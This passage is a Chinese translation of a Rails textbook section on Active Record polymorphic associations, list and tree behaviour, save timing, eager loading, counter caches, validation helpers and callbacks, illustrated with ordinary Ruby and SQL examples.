c.resource = Sound.new(:content => "more binary data")
c.save!
```

现在我们的数据库看起来更有趣了。

```sql
mysql> select * from articles;
+----+---------------------+
| id | content             |
+----+---------------------+
|  1 | This is my new article |
+----+---------------------+
mysql> select * from images;
+----+-------------------+
| id | content           |
+----+-------------------+
|  1 | some binary data  |
+----+-------------------+
mysql> select * from sounds;
+----+-------------------+
| id | content           |
+----+-------------------+
|  1 | more binary data  |
+----+-------------------+
mysql> select * from catalog_entries;
+----+------------+---------------------+-------------+---------------+
| id | name       | acquired_at         | resource_id | resource_type |
+----+------------+---------------------+-------------+---------------+
|  1 | Article One | 2006-07-18 17:02:05 |           1 | Article       |
|  2 | Image One   | 2006-07-18 17:02:05 |           1 | Image         |
|  3 | Sound One   | 2006-07-18 17:02:05 |           1 | Sound         |
+----+------------+---------------------+-------------+---------------+
```

注意所有三个目录中的外键 ID 都是 1——它们通过 `type` 列来区分。

现在我们可以通过遍历目录来检索所有三种资源。

```ruby
Download e1/ar/polymorphic.rb

CatalogEntry.find(:all).each do |c|
  puts "#{c.name}:  #{c.resource.class}"
end

这将产生

Article One:  Article
Image One:  Image
Sound One:  Sound
```

---

##### 关系声明创建的方法

| | `has_one :other` | `belongs_to :other` |
|---|---|---|
| `other(reload=false)` | ✓ | ✓ |
| `other=` | ✓ | ✓ |
| `create_other(...)` | ✓ | ✓ |
| `build_other(...)` | ✓ | ✓ |
| `replace` | ✓ | ✓ |
| `updated?` | | ✓ |

| | `has_many :others` | `habtm :others` |
|---|---|---|
| `others` | ✓ | ✓ |
| `others=` | ✓ | ✓ |
| `other_ids=` | ✓ | ✓ |
| `others.<<` | ✓ | ✓ |
| `others.build(...)` | ✓ | ✓ |
| `others.clear(...)` | ✓ | ✓ |
| `others.concat(...)` | ✓ | ✓ |
| `others.count` | ✓ | ✓ |
| `others.create(...)` | ✓ | ✓ |
| `others.delete(...)` | ✓ | ✓ |
| `others.delete_all` | ✓ | ✓ |
| `others.destroy_all` | ✓ | ✓ |
| `others.empty?` | ✓ | ✓ |
| `others.find(...)` | ✓ | ✓ |
| `others.length` | ✓ | ✓ |
| `others.push(...)` | ✓ | ✓ |
| `others.replace(...)` | ✓ | ✓ |
| `others.reset` | ✓ | ✓ |
| `others.size` | ✓ | ✓ |
| `others.sum(...)` | ✓ | ✓ |
| `others.to_ary` | ✓ | ✓ |
| `others.uniq` | ✓ | ✓ |
| `push_with_attributes(...)` | | ✓ [已弃用] |

图 18.3：关系声明创建的方法


##### 列表行为

```
class Parent < ActiveRecord::Base
  has_many :children, :order => :position
end

class Child < ActiveRecord::Base
  belongs_to :parent
  acts_as_list :scope => :parent_id
end
```

在 `Child` 类中，我们有常规的 `belongs_to` 声明，建立了与父记录的连接。我们还有一个 `acts_as_list` 声明。我们通过 `:scope` 选项对此进行了限定，指明列表是按父记录划分的。如果没有这个作用域运算符，`children` 表中的所有条目将属于一个全局列表。

现在我们可以设置一些测试数据：我们将为特定父记录创建四个子记录，分别命名为 One、Two、Three 和 Four。

```
parent = Parent.new
%w{ One Two Three Four}.each do |name|
  parent.children.create(:name => name)
end
parent.save
```

我们将编写一个方法来检查列表的内容。这里有一个微妙之处——注意我们将 `true` 传递给了 `children` 关联。这会强制每次访问它时都重新加载。这是因为各种 `move_` 方法会更新数据库中的子项，但由于它们直接操作 `children`，父对象不会立即知道这些变化。重新加载操作会强制将这些变化载入内存。

```
def display_children(parent)
  puts parent.children(true).map {|child| child.name }.join(", ")
end
```

最后，我们将测试我们的列表。注释显示了 `display_children` 方法产生的输出。

```
display_children(parent)               #=> One, Two, Three, Four

puts parent.children[0].first?          #=> true

two = parent.children[1]
puts two.lower_item.name                #=> Three
puts two.higher_item.name               #=> One
```

```
parent.children[0].move_lower
display_children(parent)        #=> Two, One, Three, Four
```

```
parent.children[2].move_to_top
display_children(parent)        #=> Three, Two, One, Four
```

```
parent.children[2].destroy
display_children(parent)        #=> Three, Two, Four
```

该列表库使用术语 *lower* 和 *higher* 来表示元素的相对位置。Higher 表示更靠近列表的前面；lower 表示更靠近列表的末尾。因此，列表的 top 与 front 同义，列表的 bottom 就是末尾。方法 `move_higher`、`move_lower`、`move_to_bottom` 和 `move_to_top` 用于在列表中移动特定项，并自动调整其他元素的位置。

`higher_item` 和 `lower_item` 返回相对于当前元素的下一个和上一个元素，而 `first?` 和 `last?` 在当前元素位于列表的 front 或 end 时返回 `true`。

新创建的子记录会自动添加到列表的末尾。当一个子行被销毁后，列表中位于其后的子记录会向上移动以填补空缺。

##### 树形行为

Active Record 提供了将表中的行组织成层次结构或树形结构的功能。这对于创建包含子条目，并且子条目自身也可能拥有子条目的结构非常有用。类别列表通常具有这种结构，权限描述、目录列表等也是如此。

这种树形结构是通过在表中添加一个列（默认名为 `parent_id`）来实现的。该列是一个外键引用，指回同一张表，将子行与其父行链接起来。这一点在下一页的图 18.4 中有所说明。

为了展示树形结构的工作原理，让我们创建一个简单的类别表，其中每个顶级类别可能拥有子类别，而每个子类别可能还拥有更深层次的子类别。注意这个指回同一张表的外键。

`Download e1/ar/acts_as_tree.rb`

```
create_table :categories, :force => true do |t|
  t.column :name, :string
  t.column :parent_id, :integer
end
```



对应的模型使用名为 `acts_as_tree` 的方法来指定关系。`:order` 参数意味着，当我们查看特定节点的子节点时，它们将按照 `name` 列排序显示。

```
Download e1/ar/acts_as_tree.rb

class Category < ActiveRecord::Base
  acts_as_tree :order => "name"
end
```

通常，你会有一些终端用户功能来创建和维护类别层次结构。在这里，我们将仅使用代码来创建它。请注意我们如何使用 `children` 属性来操作任何节点的子节点。

```
Download e1/ar/acts_as_tree.rb

root            = Category.create(:name => "Books")
fiction         = root.children.create(:name => "Fiction")
non_fiction     = root.children.create(:name => "Non Fiction")

non_fiction.children.create(:name => "Computers")
non_fiction.children.create(:name => "Science")
non_fiction.children.create(:name => "Art History")

fiction.children.create(:name => "Mystery")
fiction.children.create(:name => "Romance")
fiction.children.create(:name => "Science Fiction")
```

现在一切准备就绪，我们可以测试树形结构了。我们将使用与 `acts as list` 代码中编写的相同的 `display_children` 方法。列表如下一页所示。

```
Download el/ar/acts_as_tree.rb
display_children(root)                  # Fiction, Non Fiction

sub_category = root.children.first
puts sub_category.children.size         #=> 3
display_children(sub_category)          #=> Mystery, Romance, Science Fiction

non_fiction = root.children.find(:first, :conditions => "name = 'Non Fiction'")

display_children(non_fiction)           #=> Art History, Computers, Science
puts non_fiction.parent.name            #=> Books
```

我们用来操作子节点的各种方法应该看起来很熟悉：它们与 `has_many` 提供的方法相同。事实上，如果我们查看 `acts_as_tree` 的实现，我们会发现它所做的就是建立一个 `belongs_to` 和一个 `has_many` 属性，每个都指回同一张表。就好像我们写了

```
class Category < ActiveRecord::Base
  belongs_to :parent,
             :class_name => "Category"

  has_many   :children,
             :class_name => "Category",
             :foreign_key => "parent_id",
             :order       => "name",
             :dependent   => :destroy
end
```

如果你需要优化 `children.size` 的性能，可以使用计数缓存（就像你可以对 `has_many` 做的那样）。在 `acts_as_tree` 声明中添加选项 `:counter_cache => true`，并在你的表中添加 `categories_count` 列。

### 18.7 保存时机

让我们再次看看发票和订单。

```
Download el/ar/one_to_one.rb
class Order < ActiveRecord::Base
  has_one :invoice
end

class Invoice < ActiveRecord::Base
  belongs_to :order
end
```

你可以从关系的任一方将发票与订单关联：你可以告诉一个订单它有一个关联的发票，或者你可以告诉一个发票它与一个订单关联。这两种方式几乎是等价的。区别在于它们保存（或不保存）对象到数据库的方式。

> David 说...

#### 为什么关联中的对象在特定时机被保存

看起来可能不一致的是，将订单分配给发票不会立即保存关联，但反过来却会。这是因为只有 `invoices` 表保存了关系信息。因此，当你关联订单和发票时，总是发票行保存了这些信息。当你将订单分配给发票时，你很容易将这个操作作为发票行更新的一部分，该更新可能还包括计费日期。因此，可以将原本需要两次数据库更新的操作合并为一次。在 ORM 中，通常的原则是数据库调用越少越好。

当一个订单对象被分配了一个发票时，它仍然需要更新发票行。因此，将该关联推迟到订单保存时并没有额外的好处。事实上，这样做需要相当多的额外软件。而 Rails 的核心理念就是 *less software*。

如果你在一个现有对象上将一个对象分配给 `has_one` 关联，该关联对象将被自动保存。

```
order = Order.find(some_id)
an_invoice = Invoice.new(...)
order.invoice = an_invoice     # 发票会被保存
```

相反，如果你将一个新对象分配给 `belongs_to` 关联，它永远不会被自动保存。

```
order = Order.new(...)
an_invoice.order = order   # 订单在此处不会被保存
an_invoice.save          # 发票和订单都会被保存
```

最后，这里存在一个风险。如果子行无法保存（例如，因为验证失败），Active Record 不会报错——你不会收到任何关于该行未添加到数据库的提示。因此，我们强烈建议你不要使用前面的代码，而是编写：

```
invoice = Invoice.new
# 填写发票信息
invoice.save!
an_order.invoice = invoice
```

`save!` 方法在失败时会抛出异常，这样你至少会知道出了问题。


# 保存与集合

当涉及集合时（即当你的模型包含 `has_many` 或 `has_and_belongs_to_many` 声明时），对象何时被保存的规则基本上是相同的。

- 如果父对象存在于数据库中，那么将子对象添加到集合中会自动保存该子对象。如果父对象不在数据库中，那么子对象将被保存在内存中，并在父对象被保存后随之保存。
- 如果保存子对象失败，用于将该子对象添加到集合的方法会返回 `false`。

与 `has_one` 类似，将一个对象赋值给关联的 `belongs_to` 端并不会保存该对象。

### 18.8 预加载子行

通常，Active Record 会延迟从数据库加载子行，直到你引用它们为止。例如，参考 RDoc 中的示例，假设一个博客应用程序有如下模型：

```ruby
class Post < ActiveRecord::Base
  belongs_to :author
  has_many   :comments, :order => 'created_on DESC'
end
```

如果我们遍历文章，同时访问作者和评论属性，我们将使用一次 SQL 查询返回 `posts` 表中的 `n` 行，再分别用 `n` 次查询从 `authors` 和 `comments` 表中获取行，总计 2n+1 次查询。

```ruby
for post in Post.find(:all)
  puts "Post:              #{post.title}"
  puts "Written by:        #{post.author.name}"
  puts "Last comment on:   #{post.comments.first.created_on}"
end
```

这个性能问题有时可以通过使用 `find` 方法的 `:include` 选项来解决。它列出了在执行查找时需要预加载的关联。Active Record 以一种相当智能的方式执行此操作，使得整个数据块（包括主表和所有关联表）在单次 SQL 查询中获取。如果有 100 篇文章，与之前的示例相比，以下代码将消除 100 次查询。

```ruby
for post in Post.find(:all, :include => :author)
  puts "Post:              #{post.title}"
  puts "Written by:        #{post.author.name}"
  puts "Last comment on:   #{post.comments.first.created_on}"
end
```

而这个示例将把所有操作简化为一次查询。

```ruby
for post in Post.find(:all, :include => [:author, :comments])
  puts "Post:              #{post.title}"
  puts "Written by:        #{post.author.name}"
  puts "Last comment on: #{post.comments.first.created_on}"
end
```

此预加载并不能保证提高性能。⁵ 在底层，它将查询中的所有表连接在一起，因此最终可能返回大量数据需要转换为 Active Record 对象。并且如果你的应用程序没有使用这些额外信息，你就是在没有收益的情况下增加了成本。如果你的父表包含大量行，你也可能会遇到问题——与逐行延迟加载数据相比，预加载技术将消耗更多的服务器内存。

如果你使用 `:include`，你需要在传递给 `find` 的其他参数中使用的所有列名进行明确区分——为每个列名添加包含它的表名作为前缀。在以下示例中，条件中的 `title` 列需要表名前缀查询才能成功。

```ruby
for post in Post.find(:all, :conditions => "posts.title like '%ruby%'",
                            :include => [:author, :comments])
  # ...
end
```

### 18.9 计数器

`has_many` 关系定义了一个集合属性。询问这个集合的大小似乎是合理的：这个订单有多少个明细项？确实，你会发现这个聚合有一个 `size` 方法，它返回关联中对象的数量。此方法会访问数据库，在子表上执行 `select count(*)`，计算外键引用父表行的行数。

这可行且可靠。但是，如果你编写的是一个经常需要知道子项计数的站点，这个额外的 SQL 可能是一个你希望避免的开销。Active Record 可以使用一种称为 *计数器缓存* 的技术来提供帮助。在子模型的 `belongs_to` 声明中，你可以让 Active Record 在父表行中维护关联子项的计数。这个计数将自动维护——如果你添加一个子行，父行中的计数将递增；如果你删除一个子行，它将递减。

要启用此功能，你需要采取两个简单的步骤。首先，在子表的 `belongs_to` 声明中添加 `:counter_cache` 选项。

⁵ 实际上，它可能根本不起作用！如果你的数据库不支持左外连接，你就不能使用此功能。例如，Oracle 8 用户需要升级到版本 9 才能使用预加载。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :product, :counter_cache => true
end
```

其次，在父表（本例中是 products）的定义中，你需要添加一个整数列，其名称是子表名称后附加 `_count`。

```ruby
create_table :products, :force => true do |t|
  t.column :title, :string
  t.column :description, :text
  # ...
  t.column :line_items_count, :integer, :default => 0
end
```

在此 DDL 中有一个重要点。该列 *必须* 声明默认值为零（或者你必须执行等效操作，在创建父行时将值设置为零）。如果未这样做，无论子行数量多少，你最终都会得到计数的空值。

一旦你采取了这些步骤，你会发现父行中的计数器列会自动跟踪子行的数量。

计数器缓存存在一个问题。计数由包含集合的对象维护，并且如果通过该对象添加条目，它会正确更新。但是，你也可以通过直接在子对象中设置链接来将子项与父项关联起来。在这种情况下，计数器不会更新。

以下显示了向关联添加项目的错误方式。这里我们手动将子项链接到父项。注意，在强制父类刷新集合之前，`size` 属性是不正确的。

```ruby
product = Product.create(:title => "Programming Ruby",
                        :description => " ... ")
line_item = LineItem.new
line_item.product = product
line_item.save
puts "In memory size = #{product.line_items.size}"      #=> 0
puts "Refreshed size = #{product.line_items(:refresh).size}"  #=> 1
```

正确的方法是将子项添加到父项中。

```ruby
product = Product.create(:title => "Programming Ruby",
                        :description => " ... ")
product.line_items.create
puts "In memory size = #{product.line_items.size}"      #=> 1
puts "Refreshed size = #{product.line_items(:refresh).size}"  #=> 1
```

# 第 19 章

## Active Record 第三部分：对象生命周期

到目前为止，我们已经了解了如何连接 Active Record、访问数据和属性，以及将表链接在一起。本章将完成我们对 Active Record 的描述。它着眼于 Active Record 对象的生命周期：你可以定义验证和钩子，它们会影响对象的处理方式。

### 19.1 验证

Active Record 可以验证模型对象的内容。当对象被保存时，可以自动执行此验证。你也可以以编程方式请求验证模型的当前状态。如果在保存对象时验证失败，该对象将不会被写入数据库；它将保持在无效状态并留在内存中。这允许你（例如）将对象传递回表单，以便用户可以更正错误的数据。

Active Record 区分对应于数据库中现有行的模型和不对应的模型。后者称为 *新记录*（`new_record?` 方法对它们将返回 `true`）。当你调用 `save` 方法时，Active Record 将对新记录执行 SQL `insert` 操作，对现有记录执行 `update` 操作。

这种区分反映在 Active Record 的验证工作流程中——你可以指定在所有保存操作上执行的验证，以及其他仅在创建或更新时执行的验证。

在最底层，你通过实现 `validate`、`validate_on_create` 和 `validate_on_update` 方法中的一个或多个来指定验证。`validate` 方法在每次保存操作时都会被调用。另外两个方法中的一个会被调用

这取决于该记录是新的，还是之前已从数据库中读取过的。

你也可以随时调用`valid?`方法来运行验证，而无需将模型对象保存到数据库。这会调用与调用`save`时相同的两个验证方法。

例如，以下代码确保用户名列始终被设置为有效值，并且对于新的`User`对象，名称是唯一的。（我们稍后会看到如何更简单地指定这些类型的约束。）

```ruby
class User < ActiveRecord::Base
  def validate
    unless name && name =~ /^\w+$/
      errors.add(:name, "is missing or invalid")
    end
  end

  def validate_on_create
    if User.find_by_name(name)
      errors.add(:name, "is already being used")
    end
  end
end
```

当一个验证方法发现问题时，它会使用`errors.add`将一条消息添加到该模型对象的错误列表中。第一个参数是引发问题的属性名称，第二个参数是错误消息。如果需要添加一条适用于整个模型对象的错误消息，请改用`add_to_base`方法。（请注意，此代码使用了辅助方法`blank?`，如果其接收者为`nil`或空字符串，则返回`true`。）

```ruby
def validate
  if name.blank? && email.blank?
    errors.add_to_base("You must specify a name or an email address")
  end
end
```

正如我们将在第494页看到的，Rails视图可以在向终端用户显示表单时使用此错误列表——包含错误的字段将被自动高亮显示，并且可以轻松地在表单顶部添加一个漂亮的框来显示错误列表。

你可以使用`errors.on(:name)`（别名为`errors[:name]`）获取特定属性的错误，并可以使用`errors.clear`清除完整的错误列表。如果你查看`ActiveRecord::Errors`的API文档，你会发现许多其他方法。其中大多数已被更高级别的验证辅助方法所取代。

#### 验证辅助方法

一些验证是常见的：此属性不能为空，另一个属性必须介于18和65之间，等等。Active Record有一组标准的辅助方法，可以将这些验证添加到你的模型中。每个方法都是类级别的方法，所有方法名称都以`validates_`开头。每个方法接受一个属性名称列表，后面可选地跟着一个包含验证配置选项的哈希。

例如，我们可以将之前的验证编写为

```ruby
class User < ActiveRecord::Base
  validates_format_of :name,
                     :with    => /^\w+$/,
                     :message => "is missing or invalid"

  validates_uniqueness_of :name,
                         :on     => :create,
                         :message => "is already being used"
end
```

大多数`validates_`方法接受`:on`和`:message`选项。`:on`选项决定何时应用验证，并接受`:save`（默认值）、`:create`或`:update`之一。`:message`参数可用于覆盖生成的错误消息。

当验证失败时，辅助方法会向Active Record模型对象添加一个错误对象。该错误对象将与正在验证的字段关联。验证后，你可以通过查看模型对象的`errors`属性来访问错误列表。当Active Record作为Rails应用程序的一部分使用时，此检查通常分两步进行。

1. 控制器尝试保存一个Active Record对象，但由于验证问题（返回`false`）而保存失败。控制器重新显示包含错误数据的表单。
2. 视图模板使用`error_messages_for`方法显示模型对象的错误列表，用户有机会修复这些字段。

我们将在第494页的第22.5节《错误处理与模型对象》中介绍表单和模型之间的交互。

以下页面包含可以在模型对象中使用的验证辅助方法列表。

##### validates\_acceptance\_of

验证复选框已被选中。

```ruby
validates_acceptance_of attr... [ options... ]
```

许多表单都有一个复选框，用户必须选择它才能接受某些条款或条件。此验证通过验证该复选框的值是字符串`1`（或`:accept`参数的值）来简单地验证该框是否已被选中。该属性本身不必存储在数据库中（尽管如果你想明确记录确认，也可以存储它）。

```ruby
class Order < ActiveRecord::Base
  validates_acceptance_of :terms,
                         :message => "Please accept the terms to proceed"
end
```

**选项：**
| :accept | 值 | 表示接受的值（默认为1） |
| :allow_nil | 布尔值 | 如果为true，则nil属性被视为有效 |
| :if | 代码 | 参见第373页的讨论 |
| :message | 文本 | 默认为"必须被接受" |
| :on | | :save、:create或:update |

##### validates\_associated

对关联对象执行验证。

```ruby
validates_associated name... [ options... ]
```

对给定的属性执行验证，这些属性被假定为Active Record模型。对于每个关联验证失败的属性，将向该属性的错误列表中添加一条消息（也就是说，该模型的错误列表中不会出现详细的失败原因）。

注意不要在相互引用的模型中包含`validates_associated`调用：第一个模型会尝试验证第二个，而第二个又会验证第一个，如此循环，直到耗尽堆栈空间。

```ruby
class Order < ActiveRecord::Base
  has_many :line_items
  belongs_to :user

  validates_associated :line_items,
                      :message => "are messed up"
  validates_associated :user
end
```

**选项：**
| :allow_nil | 布尔值 | 如果为true，则nil属性被视为有效 |
| :if | 代码 | 参见第373页的讨论 |
| :message | 文本 | 默认为"无效" |
| :on | | :save、:create或:update |

##### validates\_confirmation\_of

验证一个字段及其"分身"具有相同的内容。

```ruby
validates_confirmation_of attr... [ options... ]
```

许多表单要求用户输入某个信息两次，第二次作为第一次输入未出错的确认。如果你使用以下命名约定：第二个字段的名称是属性名称加上`_confirmation`后缀，那么你可以使用`validates_confirmation_of`来检查这两个字段是否具有相同的值。第二个字段不必存储在数据库中。

例如，一个视图可能包含

```erb
<%= password_field "user", "password" %><br />
<%= password_field "user", "password_confirmation" %><br />
```

在User模型中，你可以使用以下代码验证两个密码是否相同

```ruby
class User < ActiveRecord::Base
    validates_confirmation_of :password
end
```

**选项：**
| :allow_nil | 布尔值 | 如果为true，则nil属性被视为有效 |
| :if | 代码 | 参见第373页的讨论 |
| :message | 文本 | 默认为"与确认不匹配" |
| :on | | :save、:create或:update |

##### validates\_each

使用代码块验证一个或多个属性。

```ruby
validates_each attr... [ options... ] { |model, attr, value| ... }
```

为每个属性调用代码块（如果`:allow_nil`为true，则跳过值为nil的属性）。传入正在验证的模型、属性的名称以及属性的值。如下例所示，如果验证失败，代码块应向模型的错误列表中添加信息。

```ruby
class User < ActiveRecord::Base
    validates_each :name, :email do |model, attr, value|
        if value =~ /groucho|harpo|chico/i
            model.errors.add(attr, "You can't be serious, #{value}")
        end
    end
end
```

**选项：**
| :allow_nil | 布尔值 | 如果`:allow_nil`为true，则值为nil的属性将不会被传递到代码块中。默认情况下会传递。 |
| :if | 代码 | 参见第373页的讨论。 |
| :on | | :save、:create或:update。 |


#### validates_exclusion_of

验证属性是否不在一个值集合中。

```ruby
validates_exclusion_of attr..., :in => enum [ options... ]
```

验证所有指定的属性是否都不出现在 `enum`（任何支持 `include?` 谓词的对象）中。

```ruby
class User < ActiveRecord::Base
  validates_exclusion_of :genre,
                         :in => %w{ polka twostep foxtrot },
                         :message => "no wild music allowed"
  validates_exclusion_of :age,
                         :in => 13..19,
                         :message => "cannot be a teenager"
end
```

##### 选项：

- `:allow_nil` *布尔值*：如果为真，则允许 `nil` 属性通过验证。
- `:if` *代码*：参见第 373 页的讨论。
- `:in`（或 `:within`）*可枚举对象*：一个可枚举的对象。
- `:message` *文本*：默认值为 "is not included in the list."。
- `:on`：`:save`、`:create` 或 `:update`。

#### validates_format_of

根据模式验证属性。

```ruby
validates_format_of attr..., :with => regexp [ options... ]
```

通过将每个属性的值与正则表达式 `regexp` 进行匹配来验证该属性。

```ruby
class User < ActiveRecord::Base
  validates_format_of :length, :with => /^\d+(in|cm)/
end
```

##### 选项：

- `:allow_nil` *布尔值*：如果为真，则允许 `nil` 属性通过验证。
- `:if` *代码*：参见第 373 页的讨论。
- `:message` *文本*：默认值为 "is invalid."。
- `:on`：`:save`、`:create` 或 `:update`。
- `:with`：用于验证属性的正则表达式。

#### validates_inclusion_of

验证属性是否属于一个值集合。

```ruby
validates_inclusion_of attr..., :in => enum [ options... ]
```

验证每个属性的值是否出现在 `enum`（任何支持 `include?` 谓词的对象）中。

```ruby
class User < ActiveRecord::Base
  validates_inclusion_of :gender,
                         :in => %w{ male female },
                         :message => "should be 'male' or 'female'"
  validates_inclusion_of :age,
                         :in => 0..130,
                         :message => "should be between 0 and 130"
end
```

**选项：**

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| :allow_nil | 布尔值 | 如果为真，则允许 `nil` 属性通过验证。 |
| :if | 代码 | 参见第 373 页的讨论。 |
| :in (或 :within) | 可枚举对象 | 一个可枚举的对象。 |
| :message | 文本 | 默认值为 "is not included in the list."。 |
| :on | | `:save`、`:create` 或 `:update`。 |

#### validates_length_of

验证属性值的长度。

```ruby
validates_length_of attr..., [ options... ]
```

验证每个属性的值的长度是否满足某个约束条件：至少达到给定长度、不超过给定长度、在两个长度之间，或者恰好等于给定长度。此验证器允许为不同的验证失败提供单独的消息，而不是使用单一的 `:message` 选项，尽管 `:message` 仍然可以使用。在所有选项中，长度值不能为负。

```ruby
class User < ActiveRecord::Base
  validates_length_of :name,     :maximum => 50
  validates_length_of :password, :in => 6..20
  validates_length_of :address,  :minimum => 10,
                                 :message => "seems too short"
end
```

##### 选项（用于 validates_length_of）：

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| :allow_nil | 布尔值 | 如果为真，则允许 `nil` 属性通过验证。 |
| :if | 代码 | 参见第 373 页的讨论。 |
| :in (或 :within) | 范围 | 值的长度必须在指定的范围内。 |
| :is | 整数 | 值的长度必须恰好为指定的字符数。 |
| :minimum | 整数 | 值的长度不得少于指定的字符数。 |
| :maximum | 整数 | 值的长度不得大于指定的字符数。 |
| :message | 文本 | 默认消息取决于执行的验证测试。消息可以包含单个 `%d` 序列，该序列将被替换为所需的最值、最小值或精确长度。 |
| :on | | `:save`、`:create` 或 `:update`。 |
| :too_long | 文本 | 当使用 `:maximum` 选项时，此选项作为 `:message` 的同义词。 |
| :too_short | 文本 | 当使用 `:minimum` 选项时，此选项作为 `:message` 的同义词。 |
| :wrong_length | 文本 | 当使用 `:is` 选项时，此选项作为 `:message` 的同义词。 |

#### validates_numericality_of

验证属性是否为有效的数字。

```ruby
validates_numericality_of attr... [ options... ]
```

验证每个属性是否为一个有效的数字。使用 `:only_integer` 选项时，属性必须由一个可选的符号后跟一个或多个数字组成。如果不使用此选项（或该选项不为真），则允许使用 Ruby `Float` 方法接受的任何浮点格式。

```ruby
class User < ActiveRecord::Base
  validates_numericality_of :height_in_meters
  validates_numericality_of :age, :only_integer => true
end
```

##### 选项：

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| :allow_nil | 布尔值 | 如果为真，则允许 `nil` 属性通过验证。 |
| :if | 代码 | 参见第 373 页的讨论。 |
| :message | 文本 | 默认值为 "is not a number."。 |
| :on | | `:save`、`:create` 或 `:update`。 |
| :only_integer | | 如果为真，则属性必须是仅包含可选符号后跟数字的字符串。 |

#### validates_presence_of

验证属性是否不为空。

```ruby
validates_presence_of attr... [ options... ]
```

验证每个属性既不为 `nil` 也不为空。

```ruby
class User < ActiveRecord::Base
  validates_presence_of :name, :address
end
```

##### 选项：

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| :allow_nil | *布尔值* | 如果为真，则允许 `nil` 属性通过验证。 |
| :if | *代码* | 参见下一页的讨论。 |
| :message | *文本* | 默认值为 "can't be empty."。 |
| :on | | `:save`、`:create` 或 `:update`。 |

#### validates_size_of

验证属性的长度。

```ruby
validates_size_of attr..., [ options... ]
```

`validates_length_of` 的别名。

#### validates_uniqueness_of

验证属性是否唯一。

```ruby
validates_uniqueness_of attr... [ options... ]
```

对于每个属性，验证数据库中当前没有其他行在该给定列中具有相同的值。当模型对象来自现有数据库行时，在执行检查时会忽略该行。可选的 `:scope` 参数可用于筛选测试的行，仅限于那些在 `:scope` 列中与当前记录具有相同值的行。

此代码确保用户名在整个数据库中是唯一的。

```ruby
class User < ActiveRecord::Base
  validates_uniqueness_of :name
end
```

此代码确保用户名在某个组内是唯一的。

```ruby
class User < ActiveRecord::Base
  validates_uniqueness_of :name, :scope => "group_id"
end
```

但是……尽管名为 `validates_uniqueness_of`，它并不能真正保证列值的唯一性。它能做的只是验证在*执行验证时*，没有其他列的值与正在验证的记录相同。完全有可能同时创建两条记录，它们在某个应该唯一的列上具有相同的值，并且两条记录都通过了验证。强制唯一性的最可靠方式是使用数据库级别的约束。

##### 选项：

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| :allow_nil | 布尔值 | 如果为真，则允许 `nil` 属性通过验证。 |
| :case_sensitive | 布尔值 | 如果为真（默认值），则尝试强制测试区分大小写；否则忽略大小写。此选项仅在您的数据库配置为支持条件中的区分大小写比较时才有效。 |
| :if | 代码 | 参见当前页的讨论。 |
| :message | 文本 | 默认值为 "has already been taken."。 |
| :on | | `:save`、`:create` 或 `:update`。 |
| :scope | 属性 | 将检查限制在那些在指定列中与正在检查的行具有相同值的行上。 |

#### 条件验证

所有验证声明都接受一个可选的 `:if` 参数，该参数指定要运行的代码。该参数可以是：

- 一个符号，此时会调用相应的方法，并将当前 Active Record 对象作为参数传递给它。
- 一个字符串，该字符串会被求值（通过调用 `eval`）。
- 一个 `Proc` 对象，该对象会被调用，并将当前 Active Record 对象作为参数传递给它。

如果代码返回 `false`，则会跳过此特定验证。

`:if` 选项通常与 Ruby proc 一起使用，因为这允许您编写执行延迟到验证执行时的代码。例如，您可能希望检查密码是否已指定，并且与确认密码（您要求用户输入的重复密码）匹配。但是，如果第一个验证会失败，您可能不想执行确认检查。您可以通过仅在密码不为空时运行确认检查来实现这一点。

```ruby
validates_presence_of :password

validates_confirmation_of :password,
  :message => "must match confirm password",
  :if => Proc.new { |u| !u.password.blank? }
```

#### 验证错误消息

验证返回的默认错误消息内置于 Active Record 中。但是，您可以通过编程方式更改它们。这些消息存储在一个以符号为键的哈希表中。可以通过以下方式访问：

```ruby
ActiveRecord::Errors.default_error_messages
```

编写时的值为：

```ruby
:accepted        => "must be accepted"
:blank           => "can't be blank"
```


### 19.2 回调

```
:confirmation => "doesn't match confirmation"
:empty        => "can't be empty"
:exclusion    => "is reserved"
:inclusion    => "is not included in the list"
:invalid      => "is invalid"
:not_a_number => "is not a number"
:taken        => "has already been taken"
:too_long     => "is too long (maximum is %d characters)"
:too_short    => "is too short (minimum is %d characters)"
:wrong_length => "is the wrong length (should be %d characters)"
```

要更改唯一性验证失败时返回的消息，你可以编写如下代码：

```ruby
ActiveRecord::Errors.default_error_messages[:taken] = "is in use"
```

你可能会想将这段代码放在应用程序配置目录的 `environment.rb` 文件中。

Active Record 控制着模型对象的生命周期——它创建对象、监控对象的修改、保存和更新对象，并在对象被销毁时默默地注视着。通过使用回调，Active Record 让我们的代码参与到这个监控过程中。我们可以编写代码，使其在对象生命周期中的任何重大事件发生时被调用。利用这些回调，我们可以执行复杂的验证、在列值进出数据库时进行映射，甚至阻止某些操作完成。

Active Record 定义了 20 个回调。其中的 18 个形成了 before/after 对，并围绕着 Active Record 对象的某些操作。例如，`before_destroy` 回调会在 `destroy` 方法被调用之前触发，而 `after_destroy` 则在之后触发。另外两个例外是 `after_find` 和 `after_initialize`，它们没有对应的 `before_xxx` 回调。（这两个回调在其他方面也有所不同，我们稍后会看到。）

下一页的图 19.1 展示了这 18 对回调如何包裹在模型对象的基本创建、更新和销毁操作周围。也许令人惊讶的是，before 和 after 验证调用并不是严格嵌套的。

除了这 18 个调用之外，`after_find` 回调在任何查找操作之后被调用，而 `after_initialize` 在 Active Record 模型对象创建之后被调用。

